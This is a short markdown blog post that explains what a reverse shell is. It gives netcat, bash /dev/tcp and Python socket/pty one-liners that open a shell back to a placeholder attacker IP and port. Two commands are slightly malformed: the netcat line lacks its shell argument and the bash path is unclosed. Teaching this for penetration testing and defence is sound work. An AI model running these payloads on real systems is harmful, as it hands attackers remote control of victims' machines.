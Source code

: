 +++
title = "Reverse Shell"
cover = "/images/b1/shell.jpg"
coverCaption = ""
tags = ["shell", "cybersecurity", "rce"]
keywords = ["reverse", "shell", "hacking"]
description = "A brief Introduction to Reverse Shell and its useage."
showFullContent = false
readingTime = false
hideComments = false
color = "orange" #color from the theme settings
toc = false
+++
# What is a Reverse Shell?
A reverse shell is a type of shell where the target machine initiates a connection to the attacker's machine, bypassing firewall restrictions that might block incoming connections. This method is widely used in penetration testing and malicious attacks to gain remote control access of the targets system.

## How does Reverse shell works?
The attacker sets up a listener on their machine. Once the target's machine is exploited, the attacker execute a command that starts an outbound connection to the machine.Then the attacker receives the connection and gain remote access to executes commands on the target's machine.

## Some Common Reverse Shell Method:
Reverse shell can be established using various programming languages and tools. Here I will show you some of the commonly used methods.

1. **Netcat (nc)**  
  Netcat is simple yet very powerful networking tool that can be used for reverse shells. This is how you can get reverse shell using netcat.  
  On the attacker machine set up netcat listener using:  
  ```nc -lvnp <Port>```  
  On the Target's machine execute the following command:  
  ```nc.traditional -e <Lhost_IP> <Port>```  
  _Output:_
  ![Using Netcat](/images/b1/nc.png)  

2. **Bash Reverse Shell**  
  A bash one liner can be used to establish a reverse shell.  
  ```bash -i >& /dev/tcp/<Lhost_IP/<Port> 0>&1```  
  Make sure to setup netcat listener before executing the command.  
  _Output:_
  ![Using Bash](/images/b1/bash.png)  

3. **Python Reverse Shell**  
  Python is most used language for crafting tools among hackers. Copy the script below and run it on the target machine using python3.  
  ``` Python
  import socket,subprocess,os
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("<Lhost_IP>",4444))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  import pty
  pty.spawn("/bin/bash")
  ```
  _Output:_
  ![Using python](/images/b1/py.png)  

## Final Thoughts!
Reverse shells are a powerful tool in both penetration testing and cyberattacks. Understanding how they works is important for both offensive and 
defensive cybersecurity. While attackers use them to gain access, security professionals must implement proper measures to detect and prevent these threats.
